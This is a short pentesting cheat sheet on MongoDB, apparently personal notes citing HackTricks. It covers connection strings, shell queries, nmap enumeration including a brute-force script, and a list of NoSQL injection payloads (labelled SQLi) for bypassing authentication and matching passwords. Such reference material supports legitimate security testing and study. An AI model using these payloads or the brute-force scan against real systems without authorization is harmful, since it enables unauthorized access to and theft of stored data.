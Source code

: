 # Basic Information
MongoDB is an open source database management system that uses a document-oriented database model to handle diverse forms of data. 
It offers flexibility and scalability for managing unstructured or semi-structured data in applications like big data analytics and content management.

## Connection

```bash
mongo -u <username> -p <password> <auth_source>
mongo "mongodb://USERNAME:PASSWORD@IP:PORT/SOURCE?mechanism=DEFAULT&authSource=SOURCE"
mongo "mongodb://HOST:PORT"
mongo <HOST> 
mongo <HOST>:<PORT> 
mongo <HOST>:<PORT>/<DB> 
mongo <database> -u <username> -p '<password>'
```

## Commands

```
show dbs
use <db>
show collections
db.<collection>.find()
db.<collection>.count()
db.current.find({"username":"admin"})
```

# Enumeration
## Remote
```bash
nmap -sV --script "mongo* and default" -p 27017 <IP>

# Check if credentials are needed
nmap -n -sV --script mongodb-brute -p 27017 <IP>
```

# Payloads for SQLi

```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
```


# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html](https://book.hacktricks.wiki/en/network-services-pentesting/27017-27018-mongodb.html)